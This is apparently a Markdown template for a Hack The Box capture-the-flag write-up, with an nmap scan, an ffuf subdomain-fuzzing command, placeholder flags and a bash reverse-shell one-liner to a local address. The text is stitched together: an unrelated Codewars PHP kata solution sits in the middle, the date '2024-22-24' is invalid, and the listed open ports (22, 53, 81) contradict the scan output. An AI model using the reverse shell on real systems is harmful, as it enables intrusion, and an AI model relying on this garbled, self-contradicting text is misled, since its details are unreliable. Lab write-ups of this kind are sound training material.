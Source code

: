 **Title**: "Hack The Box - BOX NAME HERE"

**Author**: Tarell King

**Date**: "2024-22-24"

**Tools Used**: [Nmap, Dirb, FFUF, 


## Scanning
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console

┌──(tarell㉿kali)-[~]
└─$ sudo nmap -sV 10.10.11.11

Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-22 22:42 EDT
Nmap scan report for 10.10.11.11
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
```

#Enumeration

```console

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

From the above output we can see that ports, 22, 53, and 81 are the ports open. 



# Fuzzing  

Perform a sub-domain/vhost fuzzing scan on ‘*.board.htb’ using the provided IP address. To achieve this, use a wordlist of common subdomains. This wordlist will try each entry as a subdomain for ‘board.htb’. Here is the command:
```console

ffuf -w Desktop/wordlist.txt -u http://board.htb/ -H "host:FUZZ.board.htb" -H "Content-Type: application/x-www-form-urlencoded" -fs 15949 -c 

```
after fuzzing we can see that x was found 



























```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
